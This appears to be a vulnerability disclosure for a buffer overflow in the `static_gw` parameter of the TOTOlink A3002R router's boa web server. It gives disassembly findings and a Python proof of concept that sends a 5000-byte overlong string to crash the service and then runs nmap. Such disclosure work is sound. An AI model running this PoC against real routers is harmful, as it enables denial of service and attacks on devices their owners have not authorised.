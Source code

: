 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_gw` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-16_22-19-45.png)
By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v36` variable is passed to `v50` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_gw` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_gw" data, and `strcpy` copies the string pointed to by `v36` to `v50` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v36` exceeds the size of the `v50` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-16_22-22-03.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_gw` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1&static_ipv6=111&static_gw={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
